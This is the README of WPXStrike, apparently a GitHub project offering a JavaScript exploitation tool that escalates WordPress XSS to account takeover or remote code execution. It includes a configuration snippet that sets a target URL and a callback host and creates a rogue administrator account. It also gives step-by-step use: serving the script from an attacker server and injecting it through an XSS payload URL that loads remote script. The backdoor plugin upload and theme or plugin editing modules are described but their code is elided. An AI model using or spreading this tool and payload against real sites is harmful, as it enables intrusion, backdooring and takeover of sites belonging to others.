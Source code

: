 
<h1 align="center">
  <br>
  <img src="https://github.com/nowak0x01/WPXStrike/assets/96009982/36f99c00-31f9-45fa-ab4d-746481a16de4" alt="WPXStrike" width="350">
  <br>
  WPXStrike
  <br>
</h1>



<h4 align="center">WordPress Exploitation Script that elevate XSS to RCE or Others Critical Vulnerabilties</a>.</h4>

<p align="center">
  <a href="#about">About</a> •
  <a href="#key-features">Key Features</a> •
  <a href="#how-to-use">How To Use</a> •
  <a href="#examples">Examples</a> •
  <a href="#contributing">Contributing</a>
</p>

![screenshot](https://github.com/nowak0x01/WPXStrike/assets/96009982/c9cd4b27-e93d-4e90-bd69-b10c0fe36e60)

## About
_**WPXStrike**_ is a script designed to escalate a **Cross-Site Scripting (XSS)** vulnerability to **Remote Code Execution (RCE)** or other's criticals vulnerabilities in WordPress.<br><br>
⭐ **This script provides support for **Wordpress** **Versions** **6.X.X**, **5.X.X** and **4.X.X**.** 🌟

## Key Features

* _**Privilege Escalation**_
  - Creates an user in WordPress.
* _**(RCE) Custom Plugin (backdoor) Upload**_
  - Upload your custom plugin (backdoor) to WordPress.
* _**(RCE) Built-In Plugin Edit**_
  - Edit a Built-In Plugins in WordPress.
* _**(RCE) Built-In Theme Edit**_
  - Edit a Built-In Themes in WordPress.
* _**(Custom) Custom Exploits**_
  - Custom Exploits for Third-Party WordPress Plugins/Themes.
  
## How To Use
https://github.com/nowak0x01/WPXStrike/assets/96009982/05ae1c34-5c0c-4ee5-b80e-0c8c270dbba0

1\) Clone the Repository
```bash
git clone https://github.com/nowak0x01/WPXStrike
```

2\) Edit the script by selecting the desired function, modifying its variable values and select the module. (Example: _**WPCreateAccount()**_)
```
// ************************************ ~% Variables %~ ************************************ //

var Target = "https://wordpress.example.com/"; // Ex: https://172.16.0.13:8000/wordpress/
var Callback = "https://fqgx7638bcvddnsrufh3nxbozd.oastify.com/"; // Ex: https://collaborator.oastify.com/ (optional) (only if you want to receive feedback at each stage).

// ************************************ ~% Functions %~ ************************************ //

WPCreateAccount(); // (Privilege Escalation) - Creates an user in WordPress.
// WPUploadCustomPlugin(); // (RCE) - Upload your custom plugin (backdoor) to WordPress.
// WPEditPlugins(); // (RCE) - Edit a Built-In Plugins in WordPress.
// WPEditThemes(); // (RCE) - Edit a Built-In Themes in WordPress.
// CustomExploits(); // (Custom) - Custom Exploits for Third-Party WordPress Plugins/Themes.

function WPCreateAccount() {

    /* ************************************************************************************************************************************************ */
    var Username = "nowak";         // Ex: operator (It is recommended to use a valid employee name from the target company).
    var Password = `j^QEkyvd7*g3xqsE`;          // (weak password are allowed).
    var Email = "nowak@example.com";  // Ex: user@company.net (It is recommended to use a business email from the target company) (No email will be sent to the email address entered).
    var Role = "administrator";                 // Ex: administrator, editor, author, contributor, subscriber.
    var FirstName = ""; // (optional)
    var LastName = "";  // (optional)
    /* ************************************************************************************************************************************************ */

    // ************************************ ~% WPCreateAccount Modules %~ ************************************ //
    // [#] Choose one of the available modules [#] //
    WPXCreateAccount(); // Wordpress Create Account Module for Wordpress 6.X.X, 5.X.X and 4.X.X.
    /* ************************************************************************************************************************************************ */

    // Wordpress Create Account Module for Wordpress 6.X.X, 5.X.X and 4.X.X.
    function WPXCreateAccount() {
      ...
    }

```

3\) Start a web server
```bash
php -S 0.0.0.0:80 -t .
```

4\) Go to the WordPress XSS vector and include _**WPXStrike.js**_
```
https://wordpress.example.com/?search=<script%20src="//YOURIP/WPXStrike.js"></script>
```

## Examples
**_WPCreateAccount()_ - Creates an user in WordPress.**

https://github.com/nowak0x01/WPXStrike/assets/96009982/60940909-e13c-4161-9638-864cab36fdcd

**_WPUploadCustomPlugin()_ - Upload your custom plugin (backdoor) to WordPress.**

https://github.com/nowak0x01/WPXStrike/assets/96009982/08deea5f-acd2-412c-b248-28a71b0ff96d

**_WPEditThemes()_ - Edit a Built-In Themes in WordPress.**

https://github.com/nowak0x01/WPXStrike/assets/96009982/ae52c7cf-26f2-44f7-aed2-e4493874bdf1

**_WPEditPlugins()_ - Edit a Built-In Plugins in WordPress.**

https://github.com/nowak0x01/WPXStrike/assets/96009982/b744d37c-bf17-4fc4-8cb1-6ede389da6c7

**_CustomExploits()_ - Custom Exploits for Third-Party WordPress Plugins/Themes**.<br>
// pending

# Contributing
If you're interested in contributing, enhancing the existing code, your efforts would be immensely appreciated. Your contributions will play a key role in making this project even better.
<pre>
              ;,_            ,
                 _uP~"b          d"u,
                dP'   "b       ,d"  "o
               d"    , `b     d"'    "b
              l] [    " `l,  d"       lb
              Ol ?     "  "b`"=uoqo,_  "l
            ,dBb "b        "b,    `"~~TObup,_
          ,d" (db.`"         ""     "tbc,_ `~"Yuu,_
        .d" l`T'  '=                      ~     `""Yu,
      ,dO` gP,                           `u,   b,_  "b7         
     d?' ,d" l,                           `"b,_ `~b  "1
   ,8i' dl   `l                 ,ggQOV",dbgq,._"  `l  lb      WPXStrike (https://github.com/nowak0x01/WPXStrike)
  .df' (O,    "             ,ggQY"~  , @@@@@d"bd~  `b "1
 .df'   `"           -=@QgpOY""     (b  @@@@P db    `Lp"b,
.d(                  _               "ko "=d_,Q`  ,_  "  "b,
Ql         .         `"qo,._          "tQo,_`""bo ;tb,    `"b,
qQ         |L           ~"QQQgggc,_.,dObc,opooO  `"~~";.   __,7,
qp         t\io,_           `~"TOOggQV""""        _,dg,_ =PIQHib.
`qp        `Q["tQQQo,_                          ,pl{QOP"'   7AFR`
  `         `tb  '""tQQQg,_             p" "b   `       .;-.`Vl'
             "Yb      `"tQOOo,__    _,edb    ` .__   /`/'|  |b;=;.__
                           `"tQQQOOOOP""`"\QV;qQObob"`-._`\_~~-._
                                """"    ._        /   | |oP"\_   ~\ ~\_~\
                                        `~"\ic,qggddOOP"|  |  ~\   `\~-._
                                          ,qP`"""|"   | `\ `;   `\   `\
                               _        _,p"     |    |   `\`;    |    |
    @Author: Hudson Nowak      "boo,._dP"       `\_  `\    `\|   `\   ;
                                 `"7tY~'            `\  `\    `|_   |
                                                      `~\  |
</pre>
